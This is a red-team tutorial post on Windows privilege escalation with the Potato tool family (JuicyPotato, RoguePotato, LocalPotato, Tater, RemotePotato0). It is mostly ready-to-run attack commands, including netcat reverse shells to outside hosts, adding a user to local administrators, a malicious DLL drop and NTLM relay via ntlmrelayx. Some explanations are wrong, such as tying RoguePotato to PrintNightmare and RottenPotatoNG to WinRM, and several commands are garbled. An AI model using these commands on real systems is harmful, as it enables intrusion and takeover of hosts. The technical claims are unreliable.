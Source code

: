 ```yaml
---
layout: post
title:  "Potato(RTR0003)"
author: redteamrecipe
categories: [ recipe, tutorial ]
tags: [red, blue]
image: assets/images/opendocker.jpeg
description: "Privilege Escalation with Potato Fan"
featured: false
hidden: false
rating: 4.9
---
```



## Potato
`code:`RTR0003



###### Reconnaissance

```
Run sharphound:

powershell -ep bypass
Import-Module  . .\SharpHound.ps1
csv -> neo4j import


Cypher query to find SeImpersonatePrivilege in BloodHound:

MATCH (u:User)-[r:MemberOf|AdminTo*]->(g:Group) MATCH (c:Computer)<-[o:HasObjectAce|MemberOf*]-(g) WHERE (o.objectType ENDS WITH 'computer' OR o.objectType ENDS WITH 'domain') AND (o.aceType STARTS WITH 'A' OR o.aceType STARTS WITH 'D') AND ANY (x IN o.aces WHERE x.Contains("SeImpersonatePrivilege") OR x.Contains("1131f6aa-9c07-11d1-f79f-00c04fc2dcd2")) RETURN u.name AS User, g.name AS Group, c.name AS Computer, o.aceType AS Type, o.aces AS ACEs

```

###### RasMan

RasMan (Remote Access Connection Manager) is a Windows service that manages dial-up and VPN connections. In some versions of Windows, the RasMan service runs with SYSTEM privileges, which means that an attacker who can exploit a vulnerability in the service may be able to escalate their privileges to SYSTEM-level.



```
RasMan. exe -i -c whoami -m 2
```

###### GenericPotato

Named pipes are a form of inter-process communication in Windows that allow two or more processes to communicate with each other through a pipe with a specific name. Named pipes can be used for legitimate purposes, such as communication between processes on the same machine, but they can also be exploited by attackers for privilege escalation.

```
juicypotato. exe -1 1337 -p c: \windows \system32\cmd. exe -1
Testing {F7FD3FD6-9994-452D-80A7-9A8FD87AEEF4} 1337
{F7FD3FD6-9994-4520-8DA7-9A8FD87AEEF4}
```

###### PrintNightmare

PrintNightmare is a vulnerability in the Windows Print Spooler service that allows attackers to execute arbitrary code with SYSTEM-level privileges. The vulnerability was discovered in June 2021 and affects multiple versions of Windows.

RoguePotato is a privilege escalation technique that leverages the PrintNightmare vulnerability to gain SYSTEM-level privileges on a compromised system. Specifically, it exploits the fact that the Print Spooler service runs with SYSTEM-level privileges by default and allows users to install and manage printer drivers.

```
whoami & C:\everyone\RoguePotato. exe -r 10.0.0.3 -e "C: \everyone\nc64.exe 10.0.0.3 3001 -e cmd. exe" -l 9999
```

###### WinRM+WMI

WinRM (Windows Remote Management) is a service in Windows that allows remote management of systems over the network using the Web Services Management (WS-Management) protocol. WMI (Windows Management Instrumentation) is a set of tools and protocols that enable administrators to monitor and manage Windows systems.

RottenPotatoNG is a privilege escalation technique that leverages the WinRM and WMI services to gain SYSTEM-level privileges on a compromised system. Specifically, it exploits the fact that the WinRM and WMI services can be used to execute commands with SYSTEM-level privileges on the target system.

```
MSFRottenPotato.cpp && cmd.exe->socat
```



###### NTLM reflection attack

NTLM (NT LAN Manager) is an authentication protocol used in Windows networks to authenticate users and computers. NTLM reflection attack is a technique that exploits the NTLM authentication protocol to execute arbitrary code with SYSTEM-level privileges on a compromised system.

LocalPotato is a privilege escalation technique that leverages the NTLM reflection attack to gain SYSTEM-level privileges on a compromised system. Specifically, it exploits the fact that the NTLM authentication protocol can be used to authenticate users and computers on a Windows network, and can be abused to execute arbitrary code with SYSTEM-level privileges.


```
PS C: \temp \attack> cmd /c ". \LocalPotato.exe -i C: \temp \attack\evil.dll -o windows \System32 \spool \drivers\x64\3\Print
config.dll -C {A9819296-E5B3-4E67-8226-5E72CE9E1FB7}."
```



###### Windows Task Scheduler

Windows Task Scheduler is a built-in tool in Windows that allows users to schedule and automate tasks on their system. HotPotato is a privilege escalation technique that leverages the Windows Task Scheduler to gain SYSTEM-level privileges on a compromised system.

The attack works by first gaining access to a non-privileged user account on the target system. The attacker can then use HotPotato to create a new scheduled task in the Windows Task Scheduler that runs with SYSTEM-level privileges. The task can be configured to execute arbitrary code, such as a malicious script or executable, when triggered.

```
Import-Module C:\Users\User\Desktop\Tools\Tater\Tater.ps1
Invoke-Tater -Trigger 1 -Command "net localgroup
administrators user /add"
```



###### RPC+LDAP

Remote Procedure Call (RPC) is a protocol used by Windows systems for communication between processes. Lightweight Directory Access Protocol (LDAP) is a protocol used to access and manage directory services over a network. RemotePotato0 is a privilege escalation technique that leverages RPC and LDAP to gain SYSTEM-level privileges on a compromised system.

```
sudo socat -v TCP-LISTEN:135,fork,reuseaddr TCP:10.0.0.45:9999 &
sudo ntlmrelayx.py -t ldap://10.0.0.10 --no-wcf-server --escalate-user normal_user
.\RemotePotato0.exe -m 3 -l 9997
rpcping -s 127.0.0.1 -e 9997 -a connect -u ntlm
```



###### SeImpersonate or SeAssignPrimaryToken

SeImpersonatePrivilege and SeAssignPrimaryTokenPrivilege are two Windows privileges that are used to perform impersonation and token manipulation. These privileges are typically granted only to high-privilege accounts, such as the Local System or Administrator accounts. The Potato family of privilege escalation techniques includes several methods that exploit these privileges to gain SYSTEM-level privileges on a compromised system.

```
juicypotato. exe -1 1337 -p c: \windows \system32\cmd. exe -1
Testing {F7FD3FD6-9994-452D-80A7-9A8FD87AEEF4} 1337
{F7FD3FD6-9994-4520-8DA7-9A8FD87AEEF4}
```

###### SeImpersontePrivilege

SeImpersonatePrivilege is a Windows privilege that allows a user to impersonate another user or security context, enabling them to perform actions as if they were that user. The Potato family of privilege escalation techniques includes several methods that exploit this privilege to gain SYSTEM-level privileges on a compromised system.

```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *
```





